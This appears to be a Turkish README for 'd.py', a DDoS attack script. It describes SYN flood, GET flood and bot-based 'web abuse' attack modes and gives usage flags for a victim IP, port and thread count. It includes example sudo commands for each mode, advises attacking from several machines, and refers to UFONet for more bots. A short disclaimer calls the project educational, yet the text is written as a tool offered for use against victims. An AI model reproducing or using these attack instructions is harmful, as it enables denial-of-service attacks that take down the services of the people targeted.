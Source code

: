 # d.py // DDoS Saldırı Script'i
**d.py** SYN Taşması GET Taşması ve BOT Saldırı yöntemlerini kullanarak kurbana **DDoS** saldırısı gerçekleştirebileceğiniz bir programdır.Daha iyi sonuçlar için daha iyi bir internet bağlantısı ve birden fazla makineyle saldırı başlatmanız önerilir.

**Bu proje öğrenim amaçlıdır. Yapılan işlerden mesul değilim.**

# Yönetici Olarak Çalıştırma
Program **root** yetkileriyle açılmalıdır UNIX sistemlerinde bunu **sudo** yardımıyla yapabilirsiniz Windows sistemlerinde ise bir txt dosyasına komutları yazdıkdan sonra uzantısını .bat olarak değiştirip yönetici olarak çalıştırabilirsiniz.

# Kullanım


    Kullanım: d.py [--kurban IP] [--port PORT] [--thread ÇEKİRDEK]
    
      Parametreler:
        --kurban veya -k: Saldırıyı yapacağınız kişinin IP adresi
        --port veya -p: Kurbana saldıracağınız PORT numarası
        --thread veya -t: Her saldırı başına oluşturulacak çekirdek sayısı
        --syn veya -s: SYN Taşma Saldırısını metodunu aktive eder.
        --get veya -g: GET Saldırı metodunu aktive eder. Varsayılan saldırı tipidir.
        --bot veya -b: GET Saldırıları için BOT'ları aktive eder.
        --yardım veya -y: Yardım menüsünü gösterir.
    
      Örnekler:
        SYN Taşma Saldırısı:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --syn
        GET Taşma Saldırısı:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --get
        BOT Saldırısı:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --bot
        Karışık:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --bot --syn --get

# BOT'ların Ayarlanması
BOT'lar **bots.txt** isimli TXT dosyasının içerisine yazılır. BOT saldırıları **Web Abuse** metoduyla olur.
Daha fazla BOT istiyorsanız **UFONet** kullanabilirsiniz.
